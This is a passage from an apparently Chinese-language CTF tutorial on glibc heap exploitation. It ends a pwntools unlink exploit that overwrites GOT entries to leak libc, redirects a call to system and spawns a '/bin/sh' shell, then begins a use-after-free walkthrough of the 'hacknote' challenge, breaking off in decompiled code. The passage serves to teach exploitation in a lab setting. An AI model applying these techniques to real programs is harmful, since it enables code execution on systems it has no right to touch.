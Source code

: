 ```python
py += p64(0x30) + p64(0x100)
py += p64(0) + p64(0)
py += p64(0) + p64(0)
edit(0, 0x60, py)
# free会触发unlink
free(1)

# 接下来，edit第一个chunk会导致本来指向这些chunk的指针指向别的地方
atoi_got = elf.got['atoi']
free_got = elf.got['free']
py = b''
py += b'a'*0x18 + p64(atoi_got) + p64(atoi_got) + p64(free_got)
edit(0, 0x30, py)


# 这里将free的got表指向puts_plt，调用free时会变成调用puts
edit(2, 0x8, p64(elf.plt['puts']))
# 下面是程序里的free，其实是执行free(chunk[0])，也就是puts(chunk[0])，会打印atoi的got表
free(0)
a = p.recv()
atoi_libc = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = atoi_libc - libc.symbols['atoi']
system_libc = libc_base + libc.symbols['system']
edit(1, 0x8, p64(system_libc))
p.recvuntil('Your choice: ')
p.sendline(b'/bin/sh\x00')
p.interactive()
```



## use after free (UAF)

顾名思义，`use after free`是对已经被`free`的内容进行读写的操作。若用户在对指针进行`free`操作后没有将其置空，则该指针可能仍然可以被使用。（根据测试，`glibc2.23`中仍然可以使用，但在最新版本中对`free`后的指针使用会报错，具体修复版本待测试）

以一道例题`hacknote`为例子：

![image-20230209153120915](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202302091531551.png)

`32位程序`，经典菜单，这个程序有三种功能，即添加、删除、打印`note`。

`add_note`部分代码如下：

```c
unsigned int add_note()
{
  _DWORD *v0; // ebx
  signed int i; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf; // [esp+14h] [ebp-14h]
  unsigned int v5; // [esp+1Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  if ( count <= 5 )
  {
    for ( i = 0; i <= 4; ++i ) // 最多有五个note
    {
      if ( !notelist[i] )
      {
        notelist[i] = malloc(8u); // notelist[i]申请了8字节空间
        if ( !notelist[i] )
        {
          puts("Alloca Error");
          exit(-1);
```